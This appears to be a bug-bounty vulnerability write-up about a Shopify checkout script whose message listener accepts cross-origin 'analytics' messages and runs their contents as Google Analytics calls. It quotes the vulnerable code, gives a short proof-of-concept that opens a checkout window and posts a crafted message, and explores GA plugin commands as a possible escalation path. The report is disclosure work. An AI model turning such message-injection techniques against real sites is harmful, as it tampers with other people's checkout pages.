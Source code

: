 # Vulnerability
The vulnerability is pretty straight-forward, exploitation is the more difficult part. 
```js
// From checkout-b0ace6cd81eb816d383ce78462bdcd5cfc3cfef0055b9ff774fd9de732b3d9d2.js
function r(e) {
  "analytics" === e.data.type && ("undefined" == typeof n.calls && (n.calls = []),
  n.calls = n.calls.concat(e.data.calls),
  document.body.dispatchEvent(new CustomEvent("GoogleAnalyticsEvent")))
}
// [snip]
window.addEventListener("message", r)
// [snip]
[{
    key: "executeAdditionalScripts",
    value: function n() {
        var e = t.calls;
        void 0 !== e && (e.forEach(function(e) {
            var t;
            (t = window).ga.apply(t, C(e))
        }),
        t.calls = [])
    }
}]
// From checkout HTML page
document.body.addEventListener("GoogleAnalyticsEvent", function() {
  window.GoogleAnalyticsAdditionalScripts.executeAdditionalScripts()
});
```
The vulnerability can be demonstrated as easily as sending an event like this:
```js
var win = window.open("https://bored-engineering-whitehat-2.myshopify.com/20276739/checkouts/0f446f1d92e2d55bb576273ebb3fc89c")
setTimeout(function() {
  win.frames[0].postMessage({
    "type": "analytics",
    "calls": [
      ['send', 'pageview']
    ]
  }, "*")
}, 2000)
```
Which will trigger a pageview event (in the network tab):
{F1163231}

# Google Analytics APIs
We now have a primitive for executing any function with any arugments on the `ga` object.
I spent a while trying to turn this into XSS, I'm reasonably confident it is not possible.

# Plugin Loading (dead-end, mostly)
Google Analytics supports [plugins](https://developers.google.com/analytics/devguides/collection/analyticsjs/using-plugins) via a "require" command, ex:
```js
ga('require', 'linkid');
```
This also supports custom plugins via a ["provide" command](https://developers.google.com/analytics/devguides/collection/analyticsjs/command-queue-reference#provide):
```js
function MyPlugin(tracker, options) {
  // ...
}
ga('provide', 'myplugin', MyPlugin);
```